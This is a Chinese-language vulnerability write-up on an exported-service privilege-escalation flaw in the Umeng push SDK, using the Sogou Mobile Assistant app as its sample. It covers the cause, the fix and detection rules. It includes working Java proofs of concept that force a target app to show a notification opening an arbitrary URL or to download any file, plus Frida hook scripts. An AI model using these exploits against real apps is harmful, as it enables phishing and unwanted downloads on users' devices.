


[TOC]

# 友盟SDK越权漏洞

## 漏洞成因
> 选取样本：搜狗手机助手v6.4.1.8（2017.12.05）

Manifest中存在导出服务UmengIntentService

```
<service android:exported="true" android:name="com.umeng.message.UmengIntentService" android:process=":channel">
    <intent-filter>
        <action android:name="org.agoo.android.intent.action.RECEIVE" />
    </intent-filter>
</service>
```

通过action为org.agoo.android.intent.action.RECEIVE的intent打开UmengIntentService服务时，调用部分栈信息：

```
> com.umeng.message.UmengIntentService.onMessage(Context arg7, Intent arg8)
> org.android.agoo.control.BaseIntentService.onHandleIntent(Intent intent)
> org.android.agoo.control.BaseIntentServicehandleRemoteMessage(Context arg19, Intent arg20)
... ...
```

UmengIntentService的onMessage会根据intent中的pulled_service和pulled_package打开对应的service，此处存在漏洞，可以越权访问未导出的服务

```java
@com.umeng.message.UmengIntentService.onMessage(Context, Intent)
protected void onMessage(Context arg7, Intent arg8) {
    super.onMessage(arg7, arg8);
    try {
        String v0_1 = arg8.getStringExtra("body");
        ... ...
        UMessage v3 = new UMessage(new JSONObject(v0_1));
        if("pullapp".equals(v3.display_type)) {
            ... ...
            Intent v0_2 = new Intent();
            v0_2.setClassName(v3.pulled_package, v3.pulled_service);
            this.a(v0_2, v3);
            this.startService(v0_2);
            new Thread(new UmengIntentService$1(this, arg7, v3)).start();
            return;
        }
        ... ...
    }
    catch(Exception v0) {
        ... ...
    }
}
```

其中，a方法的作用是将UMessage中的extra添加到intent中，使得intent能传递更多的参数，漏洞危害更大

```java
@com.umeng.message.UmengIntentService.a(Intent, UMessage)
private Intent a(Intent arg4, UMessage arg5) {
    if(arg4 != null && arg5 != null && arg5.extra != null) {
        Iterator v2 = arg5.extra.entrySet().iterator();
        while(v2.hasNext()) {
            Object v0 = v2.next();
            Object v1 = ((Map$Entry)v0).getKey();
            v0 = ((Map$Entry)v0).getValue();
            if(v1 == null) {
                continue;
            }

            arg4.putExtra(((String)v1), ((String)v0));
        }
    }

    return arg4;
}
```

## 漏洞利用
友盟sdk中含有一个名为com.umeng.message.UmengDownloadResourceService的服务，该服务包含为下载图片、推送通知栏信息等功能，该服务的功能通过display_type决定
display_type|autoupdate|notificationpullapp
-|-|-
功能|推送通知|下载资源

### 推送通知poc

```java
private void showNotification(String packageName) {
    Intent intent = new Intent();
    intent.setClassName(packageName, "com.umeng.message.UmengIntentService");
    intent.setAction("org.agoo.android.intent.action.RECEIVE");

    intent.putExtra("id", String.valueOf(new Random().nextInt() >>> 1));
    intent.putExtra("message_source", "巍擎");
    intent.putExtra("report", "1"); //随便填一个大于0的
    intent.putExtra("encrypted", "0"); //表示没加密

    try {
        // http://dev.umeng.com/push/android/api-doc#2_1_3
        // "go_app": 打开应用
        // "go_url": 跳转到URL
        // "go_activity": 打开特定的activity
        // "go_custom": 用户自定义内容。
        JSONObject UmengDownloadResourceService_body_extra = new JSONObject();
        UmengDownloadResourceService_body_extra.put("after_open", "go_url"); // 这里填写不同的内容可以干很多事情
        UmengDownloadResourceService_body_extra.put("url", "https://www.avlsec.com/");
        UmengDownloadResourceService_body_extra.put("ticker", "震惊，百分之99的人不知道还有这么牛逼的公司"); // 必填 通知栏提示文字
        UmengDownloadResourceService_body_extra.put("title", "震惊，百分之99的人不知道还有这么牛逼的公司"); // 必填 通知标题
        UmengDownloadResourceService_body_extra.put("text", "点击查看详情"); // 必填 通知文字描述
        UmengDownloadResourceService_body_extra.put("img", "https://p.ssl.qhimg.com/t01b24fe817149d09bc.jpg");

        JSONObject UmengDownloadResourceService_body = new JSONObject();
        UmengDownloadResourceService_body.put("OPERATIOIN", "1");
        UmengDownloadResourceService_body.put("msg_id", String.valueOf(new Random().nextInt() >>> 1)); // 不能重复
        UmengDownloadResourceService_body.put("display_type", "autoupdate"); // 表示推送通知
        UmengDownloadResourceService_body.put("body", UmengDownloadResourceService_body_extra);

        JSONObject UmengIntentService_body_body = new JSONObject();
        UmengIntentService_body_body.put("pulled_service", "com.umeng.message.UmengDownloadResourceService");
        UmengIntentService_body_body.put("pulled_package", packageName);

        JSONObject UmengIntentService_body_extra = new JSONObject();
        UmengIntentService_body_extra.put("body", UmengDownloadResourceService_body);

        JSONObject UmengIntentService_body = new JSONObject();
        UmengIntentService_body.put("msg_id", "msg_id");
        UmengIntentService_body.put("display_type", "pullapp");
        UmengIntentService_body.put("body", UmengIntentService_body_body);
        UmengIntentService_body.put("extra", UmengIntentService_body_extra);

        intent.putExtra("body", UmengIntentService_body.toString());

    } catch (Exception e) {
        Log.e(TAG, e.getMessage());
    }

    startService(intent);
}
```

成功弹出推送信息



### 下载资源POC

```java
private void downloadResourceService(String packageName, String url) {
    Intent intent = new Intent();
    intent.setClassName(packageName, "com.umeng.message.UmengIntentService");
    intent.setAction("org.agoo.android.intent.action.RECEIVE");

    intent.putExtra("id", String.valueOf(new Random().nextInt() >>> 1));
    intent.putExtra("message_source", "巍擎");
    intent.putExtra("report", "1"); //得填
    intent.putExtra("encrypted", "0"); //0是normal msg

    try {
        JSONObject UmengDownloadResourceService_body_extra = new JSONObject();
        UmengDownloadResourceService_body_extra.put("img", url);

        JSONObject UmengDownloadResourceService_body = new JSONObject();
        UmengDownloadResourceService_body.put("OPERATIOIN", "1");
        UmengDownloadResourceService_body.put("msg_id", String.valueOf(new Random().nextInt() >>> 1)); //不能重复
        UmengDownloadResourceService_body.put("display_type", "notificationpullapp"); // 表示下载资源
        UmengDownloadResourceService_body.put("body", UmengDownloadResourceService_body_extra);

        JSONObject UmengIntentService_body_body = new JSONObject();
        UmengIntentService_body_body.put("pulled_service", "com.umeng.message.UmengDownloadResourceService");
        UmengIntentService_body_body.put("pulled_package", packageName);

        JSONObject UmengIntentService_body_extra = new JSONObject();
        UmengIntentService_body_extra.put("body", UmengDownloadResourceService_body);

        JSONObject UmengIntentService_body = new JSONObject();
        UmengIntentService_body.put("msg_id", "msg_id");
        UmengIntentService_body.put("display_type", "pullapp");
        UmengIntentService_body.put("body", UmengIntentService_body_body);
        UmengIntentService_body.put("extra", UmengIntentService_body_extra);

        intent.putExtra("body", UmengIntentService_body.toString());

    } catch (Exception e) {
        Log.e(TAG, e.getMessage());
    }

    startService(intent);
}
```

成功下载资源（给什么链接下什么东西，下载的内容存放于/data/data/{app}/cache/{msg_id}中）



## 修复方案
友盟3.1.3版本修复了该漏洞，做法是不再支持明文传输intent中的数据。
服务接收到intent时，会对其进行解密（解密算法还没搞明白，不知道有没有可能逆出加密算法），之后的流程和原先版本一致

```java
@org.android.agoo.control.handleRemoteMessage(Context, Intent)
private final void handleRemoteMessage(Context context, Intent intent) {
    ... ...
    body = intent.getStringExtra("body");
    String encrypted = intent.getStringExtra("encrypted");
    ... ...
    /*
      此处不再支持encrypted为0，body为明文的情况
      而是需要通过解密算法对body字符串进行解密
    */
    if(TextUtils.isEmpty(((CharSequence)body))) {
        goto label_380;
    }
    /*
      老版本这里是有这段代码的
      else if(Integer.toString(0).equals(encypted)) {
          ALog.i("BaseIntentService", "normal msg, onMessage() will be excuted", new Object[0]);
          v4_1 = body;
      }
    */
    else if(Integer.toString(4).equals(encrypted)) {
        ALog.i("BaseIntentService", "message is encrypted, attemp to decrypt msg", new Object[0]);
        v2_2 = AgooFactory.parseEncryptedMsg(body);
        if(TextUtils.isEmpty(((CharSequence)v2_2))) {
            v14.errorCode = "22";
            this.notifyManager.handlerACKMessage(v14, v4);
            return;
        }
        else {
            goto label_153;
        }
    }
    else {
        ALog.e("BaseIntentService", "msg encrypted flag not exist~~", new Object[0]);
        goto label_145;
    }

    goto label_154;
    ... ...
}
```

## 检测规则
1. Manifest中存在导出的com.umeng.message.XiaomiIntentService
2. 匹配字符串"normal msg, onMessage() will be excuted"（新版本里已经删除）

## 碰到的困难
1. 该漏洞在miui系统中无法触发（startService的时候就失败了，待研究。。。）
2. 需要调试跨进程调试app，最后通过frida hook的方案使app输出日志对其进行调试

@umeng.py

```python
import frida, sys

# process_name = "sogou.mobile.explorer"
process_name = "com.sogou.androidtool"

jscode = """
Java.perform(function () {
    var Exception = Java.use("java.lang.Exception");
    var PushAgent = Java.use("com.umeng.message.PushAgent");

    var UmengDownloadResourceService = Java.use("com.umeng.message.UmengDownloadResourceService");
    UmengDownloadResourceService.onStartCommand.implementation = function(arg6, arg7, arg8) {
        PushAgent.getInstance(this).setDebugMode(true);
        send("UmengDownloadResourceService.onStartCommand");
        return this.onStartCommand(arg6, arg7, arg8);
    }

    var DownloadResourceTask = Java.use("com.umeng.message.UmengDownloadResourceService$DownloadResourceTask");
    DownloadResourceTask.$init.implementation = function(service, msg, opt) {
        this.$init(service, msg, opt);
    }

    DownloadResourceTask.download.implementation = function(str) {
        send("DownloadResourceTask.download   url: " + str);
        return this.download(str);
    }
});
"""

def on_message(message, data):
    if message['type'] == 'send':
        print("[*] {0}".format(message['payload']))
    else:
        print(message)

process = frida.get_usb_device().attach(process_name)
script = process.create_script(jscode)
script.on('message', on_message)
print('[*] Running ...')
script.load()
sys.stdin.read()
```

@umeng_channel.py

```python
import frida, sys

process_name = "com.sogou.androidtool"

jscode = """
Java.perform(function () {
    var Exception = Java.use("java.lang.Exception");
    var PushAgent = Java.use("com.umeng.message.PushAgent");

    var AgooFactory = Java.use("org.android.agoo.control.AgooFactory");
    AgooFactory.parseEncryptedMsg.implementation = function(str) {
        send("AgooFactory.parseEncryptedMsg  " + str);
        return this.parseEncryptedMsg(str);
    }

    var b = Java.use("org.android.agoo.common.b");
    b.a.overload('[B', '[B').implementation = function(bytes1, bytes2) {
        send("b.a.overload('[B', '[B')");
        return this.a(bytes1, bytes2);
    }

    b.a.overload('[B', 'javax.crypto.spec.SecretKeySpec', '[B').implementation = function() {
        send("b.a.overload('[B', 'javax.crypto.spec.SecretKeySpec', '[B')  " + arguments[0]);
        return this.a(arguments[0], arguments[1], arguments[2]);
    }

    var BaseIntentService = Java.use("org.android.agoo.control.BaseIntentService");
    BaseIntentService.handleRemoteMessage.implementation = function(context, intent) {
        send("BaseIntentService.handleRemoteMessage  " + intent);
        PushAgent.getInstance(context).setDebugMode(true);
        this.handleRemoteMessage(context, intent);
    }

    var UmengIntentService = Java.use("com.umeng.message.UmengIntentService");
    UmengIntentService.onMessage.implementation = function(context, intent) {
        send("UmengIntentService.onMessage" + intent.getStringExtra("body"));
        this.onMessage(context, intent);
    }

    UmengIntentService.startService.implementation = function(intent) {
        send("UmengIntentService.startService  " + intent);
        return this.startService(intent);
    }

    var UMessage = Java.use("com.umeng.message.entity.UMessage");
    UMessage.$init.implementation = function(obj) {
        send("UMessage.$init  " + obj.toString());
        this.$init(obj);
    }

    var UmengMessageDeviceConfig = Java.use("com.umeng.message.common.UmengMessageDeviceConfig");
    UmengMessageDeviceConfig.isServiceWork.implementation = function(arg5, arg6, arg7) {
        var ret = this.isServiceWork(arg5, arg6, arg7);
        send("UmengMessageDeviceConfig.isServiceWork -> " + ret + " (" + arg6 + ", " + arg7 + ")");
        if (arg6 == "com.umeng.message.UmengDownloadResourceService") {
            return false;
        }
        return ret;
    }
});
"""

def on_message(message, data):
    if message['type'] == 'send':
        print("[*] {0}".format(message['payload']))
    else:
        print(message)

process = frida.get_usb_device().attach(process_name)
script = process.create_script(jscode)
script.on('message', on_message)
print('[*] Running ...')
script.load()
sys.stdin.read()
```
